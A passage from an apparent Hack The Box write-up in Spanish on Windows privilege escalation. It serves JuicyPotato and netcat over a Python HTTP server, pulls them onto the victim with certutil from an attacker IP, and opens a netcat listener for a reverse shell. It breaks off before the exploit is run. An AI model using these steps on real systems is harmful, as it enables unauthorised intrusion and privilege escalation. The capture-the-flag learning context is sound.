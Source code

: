 ```
Virtual Memory: In Use:    1.109 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.186.242
```

Nos vamos a `descargar` el `JuicyPotato` y el `netcat` en la máquina víctima para ello nos descargamos el `JuicyPotato` [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) y el `netcat` [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/). Posteriormente y en el `mismo directorio` nos creamos un `servidor http` con `python`

```
# python -m http.server 80
```

Nos `descargamos` los `binarios` en la máquina víctima

```
C:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://10.10.16.35/nc.exe
C:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://10.10.16.35/JuicyPotato.exe
```

Si todo funciona correctamente deberíamos tener los dos binarios en el `directorio actual`

```
C:\Windows\Temp\Privesc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Windows\Temp\Privesc

07/08/2024  07:48 ��    <DIR>          .
07/08/2024  07:48 ��    <DIR>          ..
07/08/2024  07:48 ��           347.648 JuicyPotato.exe
07/08/2024  07:48 ��            28.160 nc.exe
               2 File(s)        375.808 bytes
               2 Dir(s)   1.431.343.104 bytes free
```

Nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 9001
```

`Ejecutamos` el `JuicyPotato`, los `CLIDS` los podemos mirar en esta `web` [https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/)

